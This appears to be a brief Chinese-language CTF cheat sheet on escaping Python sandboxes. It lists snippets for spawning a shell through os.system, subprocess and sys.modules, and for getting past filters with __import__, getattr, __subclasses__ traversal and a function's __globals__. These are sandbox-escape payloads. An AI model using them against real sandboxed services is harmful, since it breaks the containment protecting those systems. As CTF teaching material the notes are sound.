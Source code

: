 # Python Sanbox Challenge in CTF

Python Sandbox 的題目通常都是可以讓我們執行 python 的程式碼，但是會有各種檢查

### 目標

**Get shell**

```
import os
os.system("sh")
```

```
import subprocess
subprocess.Popen(["sh"])
```

```
import sys
sys.modules["os"].system("sh")
```

### 小技巧

#### `__import__`

`import` 其實是去呼叫 `__import__`

```
__import__("os").system("sh")
```

#### 拉圾堆

可以從這些地方找可以用的東西

```
globals()
locals()
{}.__class__.__base__.__subclasses__()
{}.__class__.__mro__[1].__subclasses__()
```

#### `getattr`

`.` 可以用 `getattr` 取代

```
os.system("sh")
getattr(os, "system")("sh")
```

#### 共享視野

當我們有一個檔案 `test.py` 長這樣

```
import os

def test():
    print("test")
```

我們可以跟 `test` 函式共享視野

```
from test import test
test.__globals__["os"].system("sh")
test.__globals__["__builtins__"]["__import__"]("os").system("ls")
```
